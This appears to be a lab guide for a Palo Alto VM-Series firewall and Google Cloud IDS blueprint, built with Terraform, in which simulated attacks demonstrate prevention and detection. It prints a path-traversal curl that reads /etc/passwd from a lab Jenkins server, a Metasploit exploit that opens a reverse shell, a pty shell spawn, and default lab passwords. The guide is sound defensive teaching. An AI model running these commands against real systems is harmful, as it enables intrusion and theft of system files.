



# VM-Series Blueprint: Layered Security with Cloud IDS


## Overview

The VM-Series firewall is the virtualized form factor of the Palo Alto Networks next-generation firewall. It is positioned for use in cloud environments where it can protect and secure east-west and north-south traffic.

Google Cloud IDS (Cloud Intrusion Detection System) is a cloud-native network threat detection system powered by Palo Alto Networks industry-leading security technologies.   Cloud IDS provides threat detection for intrusions, malware, spyware, and command-and-control attacks for your Google Cloud network.  It works by peering your network to a Google-managed network. Traffic in the peered network is mirrored, and then inspected by Palo Alto Networks technologies to provide advanced threat detection. You can mirror all traffic or you can mirror filtered traffic, based on protocol, IP address range, or flow directionality. 

In this blueprint, you will use the Palo Alto Networks VM-Series ML-NGFW and Google Cloud IDS to provide a layered security approach for a Google Cloud VPC network. Specifically, the VM-Series firewall will provide north-south threat prevention for the VPC network and Cloud IDS will provide east-west threat detection for the same network. 


## Objectives 

* Review Google Cloud IDS and VM-Series ML-NGFW topology
* Build the environment using Terraform by Hashicorp
* Run a variety of attacks from outside and inside the protected Google VPC network.
* Prevent north/south threats with the VM-Series ML-NGFW.
* Detect east/west threats with Google Cloud IDS.


## Topology

The diagram below shoes the topology of the blueprint.  Everything depicted in the diagram is built with Terraform, including the local configuration of the compute resources.    From a traffic flow perspective, the green line represents intra-VPC traffic (east/west traffic).  All intra-VPC traffic will be mirrored to the Google Cloud IDS service.  The red line represents inter-VPC traffic (north/south traffic).  All inter-VPC traffic will be routed to the VM-Series ML-NGFW for in-line prevention.  Please note, the log collection and SIEM/SOAR technologies listed in the diagram are not covered in this build. 

<p align="center">
    
</p>


## Build

In this section, we will walk through how to deploy the environment using Terraform. Please note, after the Terraform build completes, the virtual machines may take an additional 10 minutes to finish their boot-up process.

1. Open Google cloud shell.

<p align="center">
    
</p>


2. In cloud shell, copy and paste the following commands to clone the repository and to apply the Terraform plan.

```
git clone https://github.com/wwce/google-cloud-vmseries-builds
cd google-cloud-vmseries-builds/blueprints/vmseries-cloud-ids
terraform init
terraform apply
```

3. Verify that the Terraform plan will create 26 resources. Enter `yes` to start the build.

<p align="center">
    
</p>

4. Once the build completes, the following output will be generated.  

<p align="center">
    
</p>


## Verify Build Completion 

1. The virtual machines in this build can take up to 10 minutes to finish their deployment.  

2. To verify the VMs are ready, copy and paste the `URL_juiceshop` output value into a web browser.

3. Once you receive the Juice Shop web page successfully, please proceed to the next part of the build. 

<p align="center">
    
</p>


## VM-Series Threat Prevention 

In this section, we will simulate several threats to test the VM-Series threat prevention capabilities for north/south traffic flows.  The first threat is a simple curl command to retrieve the passwords file from a vulnerable Jenkins server.  The second threat is an attempt to download a malicious internet file from an internal Google VM.  Both of these traffic flows traverse through the VM-Series firewall for north-south inspection. 

```
Tip. You can redisplay your Terraform outputs at anytime by running terraform output from the vmseries-cloud-ids directory. 
```


###  Launch Inbound Threat

1. Copy and paste the `URL_attacker` output value into Cloud Shell.  This command will attempt to retrieve the passwords file from a vulnerable web application. 

<p align="center">
    
</p>

`output`

```
curl: (56) Recv failure: Connection reset by peer
```

The request should fail.  This is because the VM-Series is preventing high risk vulnerabilities through its content inspection engine. 


### Launch Outbound Threat

1. Copy and paste the `SSH_attacker` output value into Cloud Shell.  This opens a SSH session to the attacker VM (Kali Linux) that runs behind the VM-Series firewall in the shared VPC network.

<p align="center">
    
</p>

```
Password: kali
```

2. Run the following command to attempt to download a sudo-malicious file from the internet.  

```
wget www.eicar.org/download/eicar.com.txt
```

`output`

<p align="center">
    
</p>

The download request should fail.  This is because the VM-Series is preventing malicious file downloads through its content inspection engine. 


### View Threats on VM-Series

In this section, we will observe the action taken by the VM-Series on the threats attempted in the previous section of this lab. 

1. Copy and paste the `URL_vmseries` output value into Cloud Shell.  This URL brings you to the management interface of the VM-Series ML-NGFW.

<p align="center">
    
</p>

2. Log into the VM-Series with the following credentials

```
Username: admin
Password: Pal0Alt0@123
```

3. Navigate to **Monitor → Threat**

<p align="center">
    
</p>

4. The threat logs should show the previous inbound and outbound threat attempts. You can click the magnify glass next to any of the logs to view more information. 

<p align="center">
    
</p>

5. The detailed view of a threat log shows a variety of information, including:  threat severity, filename, file type, application, source/destination country, user, and more. 

<p align="center">
    
</p>

 
## Google Cloud IDS

In this section, we will launch an exploit from our attacker VM to a Jenkins server that reside in the same VPC network.  The VM-Series will not be in-line with this traffic, so we will use Google Cloud IDS to provide advanced threat detection to alert on any observed threats. 


### Attach Traffic Mirror Policy

1. In the Google Cloud console, navigate to **Network Security → Cloud IDS**

<p align="center">
    
</p>

2. Click **Endpoints**.  You will see an existing Cloud IDS Endpoint created by the Terraform build (xxxx-ids-endpoint).  

<p align="center">
    
</p>

```
If your endpoint shows the "cycling" icon, please wait until the endpoint finishes creating.
```

3. A packet mirroring policy needs to be attached to the endpoint to mirror packets to Cloud IDS.  Click **Endpoints → ATTACH**

<p align="center">
    
</p>

4. Create the packet mirroring policy as follows.

<p align="center">
    
</p>

<p align="center">
    
</p>

<p align="center">
    
</p>


### Launch East-West Threat

1. Log into the attacker VM from the previous section of the lab.

<p align="center">
    
</p>

```
Password: kali
```

2. Run the command to pull the passwords file from the jenkins server. 

```
curl http://192.168.11.2/cgi-bin/../../../..//bin/cat%20/etc/passwd
```

`output`

<p align="center">
    
</p>

3. Run the following command to run a full exploit against the jenkins server. 

```
msfconsole -r jenkins.rc
```

`output`

<p align="center">
    
</p>

```
If the exploit fails, please reboot the Jenkins server (Compute Engine → VM Instances) and retry the exploit.
```

4. Enter the command to access the shell of Jenkins server:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

`output`

<p align="center">
    
</p>

5. You are now logged into the Jenkins server via reverse tunnel. Check which account you’re using:

```
whoami
```

`output`

<p align="center">
    
</p>

6. Examine the session established by the exploit:

```
netstat -an
```

`output`

<p align="center">
    
</p>

7. Review the processes associated with the exploit:

```
ps -ef
ps -aux
```

`output`

<p align="center">
    
</p>

8. You have the access to the `etc/passwd` file:

```
head /etc/passwd
```

`output`

<p align="center">
    
</p>


9. Type `exit` and `exit` to return to the Kali linux prompt.

`output`

<p align="center">
    
</p>


### View Threats on Cloud IDS

1. Go to the Google Cloud Console.  Click **THREATS** within the Google Cloud IDS dashboard. 

<p align="center">
    
</p>

2. You should have a handful of alerts from the previously launched threats.  These threats appear because the VPC network is mirroring traffic to the Cloud IDS service for further inspection.

<p align="center">
    
</p>

### View Cloud IDS Traffic Logs

Cloud IDS can also ingest all traffic logs from the VPC network.  This enables you to gain visibility into application traffic via Layer-7 inspection, details on source and destination addresses, repeat count, threat type, and more.   In this section, we will demonstrate how to view these logs. 

3. In the Google Cloud console, navigate to **Network Security → Cloud IDS**

<p align="center">
    
</p>

4. Click **Endpoints** and click the name of your Cloud IDS endpoint. 

<p align="center">
    
</p>

5. Click **View related logs**.  This will bring you to Log Explorer. 

<p align="center">
    
</p>

6. You can adjust the query within Log Explorer to show an infinite number of results.  The pre-populated filter is displaying threats seen by your Cloud IDS endpoint within the us-east1-b zone.

7. Click **Clear query**.  

<p align="center">
    
</p>

8. Paste the string below into the Query Builder.  

```
resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-east1-b")

jsonPayload.application="web-browsing"
```

<p align="center">
    
</p>


9. Click **Run query** to search for results.

10. The query enter results in all generic web-browsing activity from the VM resources.  Feel free to open any of the results to  see more information. 

11. To look for more specific traffic, in the Query builder change the jsonPayload.application from web-browsing to apt-get. 

```
resource.type:("ids.googleapis.com/Endpoint") AND resource.labels.location:("us-east1-b")

jsonPayload.application="apt-get"
```

<p align="center">
    
</p>


12.  The result shows all log activity for traffic using apt-get.  Cloud IDS is capable of identifying applications with Palo Alto Networks layer 7 inspection technologies. 

<p align="center">
    
</p>


## Destroy Environment

If you would like to destroy the environment, enter the following in Google cloud shell.

```
cd google-cloud-vmseries-builds/blueprints/vmseries-cloud-ids
terraform destroy -auto-approve
rm ~/.ssh/gcp-demo
```

## Conclusion

You have completed the architecture blueprint guide.  You have learned how to provide north-south threat prevention with the VM-Series and east-west threat detection with Google Cloud IDS.